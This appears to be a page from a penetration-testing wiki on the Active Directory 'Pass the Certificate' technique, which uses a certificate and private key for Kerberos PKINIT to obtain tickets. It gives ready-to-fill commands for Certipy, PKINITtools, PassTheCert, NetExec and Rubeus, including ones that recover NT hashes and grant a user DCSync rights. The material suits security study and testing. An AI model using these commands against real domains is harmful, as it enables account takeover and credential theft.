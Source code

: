```yaml
---
authors: PfiatDe, ShutdownRepo, sckdev, Joker2a, mpgn
category: ad
---
```


# Pass the Certificate

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. An ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to [ASREProast](asreproast.md)). The pre-authentication can be validated symmetrically (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates). The asymmetrical way of pre-authenticating is called PKINIT.

Pass the Certificate is the fancy name given to the pre-authentication operation relying on a certificate (i.e. key pair) to pass in order to obtain a TGT. This operation is often conducted along [shadow credentials](shadow-credentials.md), [AD CS escalation](../adcs/index) and [UnPAC-the-hash attacks](unpac-the-hash.md).

> [!TIP]
> Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. A certificate is signed for a specific public key, that was generated along with a private key, which should be used when relying on a certificate for authentication.
> 
> The "certificate + private key" pair is usually used in the following manner
> 
> * PEM certificate + PEM private key
> * PFX certificate export (which contains the private key) + PFX password (which protects the PFX certificate export)

## Practice

::: tabs

=== UNIX-like

From UNIX-like systems, [Dirk-jan](https://twitter.com/_dirkjan)'s [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/) tool to request a TGT (Ticket Granting Ticket) for the target object. That tool supports the use of the certificate in multiple forms.


```python
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```


Alternatively, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used for the same purpose.


```bash
certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
```


Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file.


```bash
certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"
```


The ticket obtained can then be used to

* authenticate with [pass-the-cache](ptc.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack. This can be done with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/).
* obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools).

> [!TIP]
> When using Certipy for Pass-the-Certificate, it automatically does [UnPAC-the-hash](unpac-the-hash.md) to recover the account's NT hash, in addition to saving the TGT obtained.

Another alternative is with [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py) (Python) which can be used to conduct multiple techniques like elevate a user for [dcsync.md](../credentials/dumping/dcsync.md) or change password for a specific user.

```bash
# extract key and cert from the pfx
certipy cert -pfx "PATH_TO_PFX_CERT" -nokey -out "user.crt"
certipy cert -pfx "PATH_TO_PFX_CERT" -nocert -out "user.key"

# elevate a user for DCSYNC with passthecert.py
passthecert.py -action modify_user -crt "PATH_TO_CRT" -key "PATH_TO_KEY" -domain "domain.local" -dc-ip "DC_IP" -target "SAM_ACCOUNT_NAME" -elevate
```

You can also use [Netexec](https://github.com/Pennyw0rth/NetExec) to perform Pass-the-Certificate authentication:

```bash
netexec <proto> <ip> --pfx-cert "PATH_TO_PFX_CERT" -u user 
netexec <proto> <ip> --pfx-cert "PATH_TO_PFX_CERT" --pfx-pass "CERT_PASSWORD" -u user 
netexec <proto> <ip> --pfx-base64 "PATH_TO_PFX_CERT" -u user 
netexec <proto> <ip> --pem-cert "PATH_TO_CRT" --pem-key "PATH_TO_KEY" -u user 
```


=== Windows

From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to request a TGT (Ticket Granting Ticket) for the target object from a base64-encoded PFX certificate export (with an optional password).

```powershell
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

> [!TIP]
> PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.
> 
> ```bash
> openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"
> ```

> [!TIP]
> Certipy uses DER encryption. To generate a PFX for Rubeus, [openssl](https://www.openssl.org/) can be used.
> 
> ```bash
> openssl rsa -inform DER -in key.key -out key-pem.key
> openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM
> openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx
> ```
>
> > [!TIP]
> To generate a b64 for Rubeus:
> 
> ```powershell
> $pfx_cert = get-content 'c:\cert.pfx' -Encoding Byte
> $base64 = [System.Convert]::ToBase64String($pfx_cert)
> $base64
> ```

The ticket obtained can then be used to

* authenticate with [pass-the-ticket](ptt.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack (add the `/getcredentials` flag to Rubeus's asktgt command)
* obtain access to the account's SPN with an S4U2Self.

:::
